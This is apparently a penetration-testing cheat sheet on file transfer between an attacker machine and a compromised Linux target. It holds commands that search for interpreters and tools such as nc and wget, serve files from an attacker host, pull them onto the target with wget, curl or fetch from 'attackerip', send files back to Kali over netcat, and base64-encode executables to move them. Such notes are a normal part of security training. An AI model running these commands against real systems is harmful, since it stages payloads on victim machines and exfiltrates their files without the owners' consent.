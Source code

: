 # Linux File Transfer
## Method
```bash
# Check for Dev Environements
find / -name perl*
find / -name python*
find / -name gcc* 
find / -name cc

# Check to see how files can be uploaded
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
```

## Python SimpleHTTPServer
```bash
#on Attacker
python -m SimpleHTTPServer 9999

#on target
wget <ip>:9999/file.txt
curl -O http://<ip>/file.txt
```

------------------------------
## Apache
```bash
# On Attacker
cp filetosend.txt /var/www/html
service apache2 start

# On Target
wget http://attackerip/file
curl http://attackerip/file > file
fetch http://attackerip/file        # on BSD
```
---------------------------------
## Netcat
```bash
### From target to Kali)
# Listen on Kali
nc -lvp 4444 > file

# Send from Target machine
nc <kali_ip> 4444 < file

### From Kali to target
# on target, wait for the file
nc -nvlp 55555 > file
cat binary | base64 | nc -nlvp 4444

# on kali, push the file
nc $victimip 55555 < file

```
## Sending Executables
```bash
# Encode executable
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```

